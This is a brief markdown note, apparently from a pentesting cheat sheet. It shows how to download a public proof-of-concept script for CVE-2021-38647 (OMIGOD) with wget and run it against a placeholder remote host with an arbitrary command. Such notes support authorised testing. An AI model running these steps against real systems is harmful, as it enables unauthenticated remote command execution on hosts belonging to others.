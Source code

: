 ### download
```
wget https://raw.githubusercontent.com/horizon3ai/CVE-2021-38647/main/omigod.py
```

### execute
```
python3 omigod.py -t <rhost> -c <command>
```

### References
https://github.com/horizon3ai/CVE-2021-38647  


